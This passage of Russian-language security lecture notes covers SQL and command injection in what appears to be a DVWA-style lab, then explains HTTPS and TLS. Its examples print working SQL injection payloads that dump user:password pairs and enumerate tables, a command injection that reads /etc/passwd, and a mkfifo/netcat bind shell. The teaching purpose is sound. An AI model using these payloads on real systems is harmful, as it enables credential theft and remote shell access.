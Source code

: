 и в таблицу admin будет несанкционированно добавлена запись `foo:bar`. Для защиты от данного типа атак необходимо
тщательно фильтровать входные параметры, значения которых будут использованы для построения SQL-запроса. Так же все
приходящие с формы параметры должны иметь соответствующий тип, т.е. если ожидается id сущности, то её тип должен быть
int, а не string.

Пример: переходим на вкладку `SQL Injection` и вводим следующие данные:

```
%' and 1=0 union select null, concat(user,':',password) from users #
%' or '0'='0
%' and 1=0 union select null, table_name from information_schema.tables #
```

Пример: command injection. Переходим во вкладку `Command Injection` и вводим следующие данные:

```
192.168.1.106; cat /etc/passwd
```

```
192.168.1.106; mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe
```

Подключаемся к localhost 4444 с локальной машины (порт 4444 проброшен из VM):

```shell
nc localhost 4444
date
whoami
```

## HTTPS

Любое действие в интернете — это обмен данными. Каждый раз, когда вы запускаете видеоролик, посылаете сообщение в
социальной сети или открываете сайт, ваш компьютер отправляет запрос к нужному серверу и получает от него ответ. Как
правило, обмен данными происходит по протоколу HTTP. Этот протокол не только устанавливает правила обмена информацией,
но и служит транспортом для передачи данных — с его помощью браузер загружает содержимое сайта на ваш компьютер или
смартфон. При всём удобстве и популярности HTTP у него есть один недостаток: данные передаются в открытом виде и никак
не защищены. На пути из точки А в точку Б информация в интернете проходит через десятки промежуточных узлов, и, если
хоть один из них находится под контролем злоумышленника, данные могут перехватить. Для установки безопасного соединения
используется протокол HTTPS с поддержкой шифрования. Защиту данных в HTTPS обеспечивает криптографический протокол
SSL/TLS, который шифрует передаваемую информацию. По сути этот протокол является обёрткой для HTTP. Он обеспечивает
шифрование данных и делает их недоступными для просмотра посторонними. Протокол SSL/TLS хорош тем, что позволяет двум
незнакомым между собой участникам сети установить защищённое соединение через незащищённый канал.
